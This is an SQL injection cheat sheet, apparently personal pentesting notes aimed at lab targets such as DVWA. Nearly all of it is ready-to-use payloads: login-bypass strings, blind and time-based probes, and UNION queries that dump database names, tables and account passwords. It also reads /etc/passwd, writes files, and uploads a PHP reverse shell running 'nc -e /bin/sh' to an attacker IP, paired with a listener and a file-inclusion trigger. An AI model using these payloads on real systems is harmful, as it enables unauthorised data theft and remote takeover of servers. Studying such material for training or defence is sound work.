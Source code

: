 # SQL Injection

## Types
- MySQL
  - Error Based
    - ```'``` & ```"``` & ```\``` & ```)``` & tilda
  - Blind 
    - Boolean
      - True: ```id=1" and 1=1--```
      - False: ```id=1" and 1=2--```
      - Other
        - ```id=1' and 1=1--+```
        - ```id=1' and 1=1#```  
    - Time Based
      - ```id=1' and sleep(5)--```
      - ```id=';waitfor delay '0:0:5'--```

## Payloads
```
a' or '1'='1
a' or '1'='1'%23
a' or 1=1%23
a'%09or%09'1'='1
a'or'1'='1
a'/**/or/**/'1'='1
2 or 1=1
2%0Aor 1=1
` desc %23
IF(0,name,age)
' or 1=1#
' or 1=1--
' or 1=1 LIMIT 1 #
2 union all select * from users
```

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 

- Data Extracting 
  - Seleting database version, Database, user
    - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - Database tables 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables``` 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - Table Columns
    - ```... union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - Selecting data from table 
    - ```... union select 1,username,password,is_admin,5 from accounts``` 
  - Reading files
    - ```... union select null,load_file('/etc/passwd'),null,null,null``` 
  - Writing files
    - ```UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*``` 

- Shell upload 
  - Payload 
    - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin:
    - nc -vv -l -p 8080
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```

- Tips
  - TRUE statements
    - ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1``` 
  - FALSE statements
    - ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```   
  - Spaces
    - ```+``` & ```/**/``` & ```%20``` 
    - ```orDeR bY 1 can be re-written as``` => ```orDer+bY+1``` or ```orDer/**/bY/**/1``` or ```orDer%20bY%201```
  - Comments to end the quries
    - ```/*``` & ```//``` & ```#``` & ```%23```
    - Sometimes you might need to add ';' before the comment
      - ```anD 1=1//``` => ```anD 1=1;//```

## Tool
[SQLMAP](../Tools/sqlmap.md)
```
